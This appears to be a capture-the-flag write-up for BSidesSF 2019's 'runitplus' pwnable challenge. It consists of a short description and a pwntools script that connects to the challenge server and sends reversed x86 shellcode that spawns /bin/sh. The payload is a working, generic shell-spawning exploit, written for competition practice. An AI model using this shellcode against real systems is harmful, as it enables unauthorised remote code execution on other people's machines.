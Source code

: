 # **runitplus**

#### tag : pwnable, writeup, BSidesSF-2019-CTF

-----------------------------------------------

#### Description

>This is the same as runit, except requires a bit of reversing! Grab the flag from /home/ctf/flag.txt
>
>Location - runitplusplus-a36bf652.challenges.bsidessf.net:5353

-----------------------------------------------

#### Solution

```python
from pwn import *

r = remote('runitplusplus-a36bf652.challenges.bsidessf.net',5353)

sh = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'[::-1]

r.sendafter('\n', sh)
r.interactive()
```
